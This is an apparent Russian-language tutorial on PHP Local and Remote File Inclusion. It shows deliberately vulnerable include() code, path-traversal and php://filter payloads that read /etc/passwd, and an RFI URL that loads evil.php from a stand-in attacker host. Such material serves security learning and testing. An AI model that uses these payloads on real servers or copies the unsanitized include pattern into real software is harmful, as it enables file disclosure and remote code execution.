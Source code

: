 # Что  такое LFI?

Включение локального файла (LFI) позволяет злоумышленнику включать файлы на сервер через веб-браузер. Эта уязвимость существует, когда веб-приложение включает файл без правильной очистки ввода, позволяя злоумышленнику манипулировать вводом и 
вводить символы обхода пути и включать другие файлы с веб-сервера. 

С п.м LFI вы можете обходить катологи и прочитать другие файлы, а также запускать другие php файлы (если конечно вы знаете их называние).

Пример php-кода, уязвимого для LFI:

```php
<?php

    $file = $_GET[‘file’];
     ​
    if(isset($file)){
     
       include(“pages/$file”);
   ​ }
   ​ else{

       include(“index.php”);
      }
  
?>
```
    
Эксплуатировать эту уязвимость легко. Пример эксплуатации LFI:

```
Цель -->  https://example.com/?file=contact.php
Эксплуатация --> https://example.com/?module=/etc/passwd

Цель -->  /script.php?page=index.html
Эксплуатация -->  /script.php?page=../../../../../../../../etc/passwd
```

Как видно, мы можем читать данные которые не должны. Но если файл формата php или htmlб то он его не читает, а исполняет.

PHP-оболочки:
  В PHP есть несколько оболочек, которыми часто можно злоупотреблять для обхода различных входных фильтров. Их также называют wrapper или же обертки.
  
PHP php://filter:
  Фильтр php: // позволяет пентестеру включать локальные файлы, а base64 кодирует вывод. 
  Следовательно, любой вывод base64 необходимо будет декодировать, чтобы раскрыть содержимое:
  
  
    index.php?file=php://filter/convert.base64-encode/resource=/etc/passwd
  
  В результате вы получитае закодированную сожержимое base64, но его легко декодировать
  
  php: // filter также можно использовать без кодирования вывода base64, используя: 
    
      ?file=php://filter/resource=/etc/passwd
      
  В результате вы на странице получите содержимое /etc/passwd
  
Так почему мета-оболочка php://filter работает через url и его можно использовать как эксплойт для LFI?

если мы выполним вот такой код:

```php
include("php://filter/resource=index.php")
```

то наш код успешно выполнится и мы подключим файл index.php, так и в url. Помоему наверняка функция include() использует один из функции readfile(), file(), file_get_contents().
  

А еще есть такая узвимость как RFI (Remote File Include), он похож на LFI, но его уровень угрозы выше, потому что он может подключать не только локольные файлы, но и удалённые. Это даёт злоумышленнику подключать свои файлы.

Пример уязвимого PHP-кода:

```php
  $file = $_GET['file'];

  include($file);
```
  
И его эксплуатации:

```
http://example.com/?file=http://attacker.example.com/evil.php
```













































  